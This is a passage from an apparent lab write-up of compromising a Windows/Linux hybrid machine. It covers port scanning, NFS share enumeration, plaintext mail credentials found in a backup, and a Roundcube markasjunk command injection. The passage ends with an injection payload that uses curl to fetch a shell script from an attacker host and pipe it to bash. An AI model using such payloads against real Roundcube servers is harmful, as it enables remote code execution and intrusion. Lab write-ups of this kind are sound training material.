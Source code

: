 ```
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: hybrid.vl0., Site: Default-First-Site-Name)
3389/tcp open  ms-wbt-server Microsoft Terminal Services
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
```

There is a roundcube instance listening on port 80.

rpcbind and nfs are open, going to check nfs shares:
```
$ showmount -e 10.10.215.166 
Export list for 10.10.215.166:
/opt/share *
```

# RoundCube CVE

Mounting the share shows a backup file.
```
├── etc
│   ├── dovecot
│   │   └── dovecot-users
│   ├── passwd
│   ├── postfix
│   │   └── main.cf
│   └── sssd
│       └── sssd.conf
└── opt
    └── certs
        └── hybrid.vl
            ├── fullchain.pem
            └── privkey.pem

```

The dovecot-users has credentials!
```
admin@hybrid.vl:{plain}Duckling21
peter.turner@hybrid.vl:{plain}PeterIstToll!
```

Logging in with the admin account and looking around shows a few interesting things.

The application version is: `Roundcube Webmail 1.6.1` and the `markasjunk` plugin is installed.

There is an advisory talking about how the `markasjunk` extension can be used to get RCE:
https://ssd-disclosure.com/ssd-advisory-roundcube-markasjunk-rce/

"The vulnerability can be triggered by any Roundcube user who can change his email identity as well as mark an email as junk, both being trivial requirements."

There is also a nice POC: `admin&touch${IFS}test.txt&@roundcube.com`

So something like `&curl${IFS}http://10.8.0.110:8080/shell.sh|bash&` should work.
